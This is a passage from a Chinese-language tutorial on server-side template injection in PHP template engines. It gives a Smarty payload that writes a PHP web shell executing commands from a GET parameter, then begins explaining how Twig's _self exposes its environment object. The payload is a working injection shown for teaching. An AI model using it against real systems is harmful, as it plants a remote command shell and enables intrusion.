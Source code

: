 能写文件对攻击者真的是太有利了，一般不出意外能直接 getshell

**payload：**

{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())} 

##### **2.Twig**

相比于 Smarty ,Twig 无法调用静态方法，并且所有函数的返回值都转换为字符串，也就是我们不能使用 self:: 调用静态变量了，但是 通过[官方文档](https://twig.symfony.com/doc/2.x/templates.html)的查询

**如下图所示：**

[![img](assets/1667436023576-95e1b7a3-c293-4cef-a23c-bdc9b140f6bd.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/Twig_self.png)此处输入图片的描述

Twig 给我们提供了一个 _self, 虽然 _self 本身没有什么有用的方法，但是却有一个 env

**如下图所示：**

[![img](assets/1667436023551-019f2c03-4e5c-4da9-90b4-56628b5d3062.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/Twig_env.png)
